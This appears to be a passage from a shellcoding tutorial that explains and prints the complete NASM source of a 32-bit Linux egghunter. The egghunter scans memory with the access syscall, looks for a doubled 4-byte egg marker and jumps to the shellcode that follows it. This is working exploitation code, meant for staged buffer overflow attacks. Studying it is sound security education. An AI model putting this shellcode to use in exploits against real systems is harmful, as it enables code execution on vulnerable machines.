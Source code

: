 ```bash
 ; preparing the egghunt
    mov eax, 0x50905090 ; 4-byte egghunter key
    mov edi, edx        ; EDX register contains the memory address of writable page
```

The SCASD instruction is used for searching a particular character or set of characters in a string.
The data item to be searched should be in the EAX register

```bash
; hunts for first 4 bytes of egg; scasd sets ZF when we find the match
    scasd               ; compares [EDI] to value in EAX register, increments EDI register by 4 
    jnz increase_address     ; jumps to inc_address when ZF is not set
    
    ; hunts for last 4 bytes of egg
    scasd               ; hunts for last 4 bytes of egg
    jnz increase_address

    ; jumps to the beginning of the shellcode
    jmp edi

```

The full shellcode:

```bash
; Filename: egghunter.nasm

global _start

section .text
_start:
    xor edx, edx        ; zeroing out the EDX register

set_page:
    ;sets EDX register to PAGE_SIZE-1 (4095)
    or dx, 0xfff        ; sets the EDX register to 0xfff;

increase_address:
    inc edx             ; increases the EDX register by one,

    ; int access(const char *pathname, int mode);
    lea ebx, [edx+0x4]  ; pathname
    push byte 0x21      ; system call number for access (33 decimal)
    pop eax             ; 0x21 value
    int 0x80            ; calling the syscall, returns 0xfffffff2 on EFAULT.

    cmp al, 0xf2        ; sets the Zero Flag when the comparison is true
    jz set_page       ; jump to set_page when ZF is set (not NULL)

    ; preparing the egghunt
    mov eax, 0x50905090 ; 4-byte egghunter key
    mov edi, edx        ; EDX register contains the memory address of writable page
    
    ; hunts for first 4 bytes of egg; scasd sets ZF when we find the match
    scasd               ; compares [EDI] to value in EAX register, increments EDI register by 4 
    jnz increase_address     ; jumps to inc_address when ZF is not set
    
    ; hunts for last 4 bytes of egg
    scasd               ; hunts for last 4 bytes of egg
    jnz increase_address

    ; jumps to the beginning of the shellcode
    jmp edi

```